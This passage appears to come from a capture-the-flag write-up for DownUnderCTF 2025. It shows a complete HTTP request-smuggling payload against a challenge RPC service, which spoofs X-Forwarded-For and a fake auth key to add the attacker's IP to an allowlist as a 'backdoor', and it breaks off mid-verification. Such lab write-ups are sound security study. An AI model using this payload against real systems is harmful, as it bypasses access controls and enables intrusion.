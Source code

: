 In my case, the IP address is `172.18.0.1`.

Then, we can add our own "backdoor" via the following smuggling request:

```http
GET /ping HTTP/1.1
Host: dev.rpc-service.ductf
Transfer-Encoding: chunked

5
AAAAAXX2
9b
0

GET /update_allowlist=172.18.0.1 HTTP/1.1
Host: dev.rpc-service.ductf
X-Forwarded-For: 127.0.0.1
Auth-Key: fake_token
Transfer-Encoding: chunked

0


```

![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2025/images/Pasted%20image%2020250723150059.png)

Finally, we can verify the list indeed updated by sending a GET request to the RPC service again:
